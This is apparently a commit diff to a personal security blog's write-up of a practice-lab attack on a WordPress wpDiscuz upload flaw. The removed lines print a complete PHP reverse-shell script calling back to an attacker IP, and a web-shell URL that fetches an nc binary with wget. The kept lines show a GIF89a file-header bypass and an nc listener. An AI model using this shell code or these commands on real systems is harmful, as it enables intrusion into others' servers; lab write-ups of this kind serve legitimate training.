

Before and after one commit to laughtersec/laughtersec.github.io, a Jekyll site: the page built from pages/blogger.md, in a window 1280 px wide and 1400 px high, scrolled down 6782 px. Shown: the whole window at 89% size, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update blogger.md

````diff
--- a/pages/blogger.md
+++ b/pages/blogger.md
@@ -270,19 +270,9 @@ http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/05/fgdgdwlvisugaeo-1
 
 ![](png/whoami.png)
 
-So code execution is confirmed, however we need a reverse shell. The problem is the `nc` binary on the target doesn't allow `-e`. So we will upload our own.
+I found another exploit: [GitHub - meicookies/CVE-2020-24186: WpDiscuz 7.0.4 Arbitrary File Upload Exploit](https://github.com/meicookies/CVE-2020-24186) since I wasn't unable to run anything beyond basic commands.
 
-http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/05/fgdgdwlvisugaeo-1748254915.6219.php?cmd=wget%20http://192.168.45.169:8000/nc
-
-We can find out the current working directory
-
-http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/05/fgdgdwlvisugaeo-1748254915.6219.php?cmd=pwd
-
-![](php_pwd.png)
-
-I found another exploit: [GitHub - meicookies/CVE-2020-24186: WpDiscuz 7.0.4 Arbitrary File Upload Exploit](https://github.com/meicookies/CVE-2020-24186)
-
-Basically, put any php code but give it the file header "GIF89a", like so
+Basically, put any php code (I used `php-reverse-shell.php`) but give it the file header "GIF89a", like so
 
 ```php
 GIF89a
@@ -292,150 +282,14 @@ $VERSION = "1.0";
 $ip = '192.168.45.169';  // CHANGE THIS
 $port = 4444;       // CHANGE THIS
 $chunk_size = 1400;
-$write_a = null;
-$error_a = null;
-$shell = 'uname -a; w; id; /bin/sh -i';
-$daemon = 0;
-$debug = 0;
-
-//
-// Daemonise ourself if possible to avoid zombies later
-//
-
-// pcntl_fork is hardly ever available, but will allow us to daemonise
-// our php process and avoid zombies.  Worth a try...
-if (function_exists('pcntl_fork')) {
-	// Fork and have the parent process exit
-	$pid = pcntl_fork();
-
-	if ($pid == -1) {
-		printit("ERROR: Can't fork");
-		exit(1);
-	}
-
-	if ($pid) {
-		exit(0);  // Parent exits
-	}
-
-	// Make the current process a session leader
-	// Will only succeed if we forked
-	if (posix_setsid() == -1) {
-		printit("Error: Can't setsid()");
-		exit(1);
-	}
-
-	$daemon = 1;
-} else {
-	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
-}
-
-// Change to a safe directory
-chdir("/");
-
-// Remove any umask we inherited
-umask(0);
-
-//
-// Do the reverse shell...
-//
-
-// Open reverse connection
-$sock = fsockopen($ip, $port, $errno, $errstr, 30);
-if (!$sock) {
-	printit("$errstr ($errno)");
-	exit(1);
-}
-
-// Spawn shell process
-$descriptorspec = array(
-   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
-   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
-   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
-);
-
-$process = proc_open($shell, $descriptorspec, $pipes);
-
-if (!is_resource($process)) {
-	printit("ERROR: Can't spawn shell");
-	exit(1);
-}
-
-// Set everything to non-blocking
-// Reason: Occsionally reads will block, even though stream_select tells us they won't
-stream_set_blocking($pipes[0], 0);
-stream_set_blocking($pipes[1], 0);
-stream_set_blocking($pipes[2], 0);
-stream_set_blocking($sock, 0);
-
-printit("Successfully opened reverse shell to $ip:$port");
-
-while (1) {
-	// Check for end of TCP connection
-	if (feof($sock)) {
-		printit("ERROR: Shell connection terminated");
-		break;
-	}
-
-	// Check for end of STDOUT
-	if (feof($pipes[1])) {
-		printit("ERROR: Shell process terminated");
-		break;
-	}
-
-	// Wait until a command is end down $sock, or some
-	// command output is available on STDOUT or STDERR
-	$read_a = array($sock, $pipes[1], $pipes[2]);
-	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
-
-	// If we can read from the TCP socket, send
-	// data to process's STDIN
-	if (in_array($sock, $read_a)) {
-		if ($debug) printit("SOCK READ");
-		$input = fread($sock, $chunk_size);
-		if ($debug) printit("SOCK: $input");
-		fwrite($pipes[0], $input);
-	}
-
-	// If we can read from the process's STDOUT
-	// send data down tcp connection
-	if (in_array($pipes[1], $read_a)) {
-		if ($debug) printit("STDOUT READ");
-		$input = fread($pipes[1], $chunk_size);
-		if ($debug) printit("STDOUT: $input");
-		fwrite($sock, $input);
-	}
-
-	// If we can read from the process's STDERR
-	// send data down tcp connection
-	if (in_array($pipes[2], $read_a)) {
-		if ($debug) printit("STDERR READ");
-		$input = fread($pipes[2], $chunk_size);
-		if ($debug) printit("STDERR: $input");
-		fwrite($sock, $input);
-	}
-}
-
-fclose($sock);
-fclose($pipes[0]);
-fclose($pipes[1]);
-fclose($pipes[2]);
-proc_close($process);
-
-// Like print, but does nothing if we've daemonised ourself
-// (I can't figure out how to redirect STDOUT like a proper daemon)
-function printit ($string) {
-	if (!$daemon) {
-		print "$string\n";
-	}
-}
-
-?>
+<...>
 ```
 
-And upload this in the comment section
+And upload it in the comment section...
 
 ![](png/blogger_upload_here.png)
 
+To catch a reverse shell
 
 ```shell
 $ nc -vlnp 4444
````
